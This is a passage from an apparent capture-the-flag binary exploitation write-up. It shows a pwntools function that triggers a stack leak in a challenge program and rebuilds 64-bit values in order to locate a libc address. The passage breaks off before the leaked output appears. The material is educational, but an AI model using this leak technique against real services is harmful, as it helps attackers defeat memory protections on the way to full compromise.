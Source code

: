 This allowed us to leak values in the stack:
!![Screenshot_20241016_073335](../../Screenshot_20241016_073335.png)

---
### Leaking libc

With the leaked stack addresses, we can extract an address that points to a variable or code in libc by searching for a known offset within the stack values. Using the following code, I converted the leaked values to hexadecimal to make the search easier:
```python
def leak_stack(n):
	io = conn()

	send_size(io, n)

	for i in range(n):
		send_null(io)

	io.recvuntil(b"Result: ")
	leak = io.recvline().decode().strip().split(' ')
	io.close()

	values = [int(s) & 0xffffffff for s in leak]
	qwords = []
	for i in range(0, len(values), 2):
		lo = values[i]
		hi = values[i + 1]
		qword = (hi << 32) | lo
		qwords.append(qword)
		log.info(f"[{i // 2}] Leaked at offset {hex(i * 4)}: {hex(qword)}")

	return qwords


qwords = leak_stack(200)
```

This gives us a more readable output: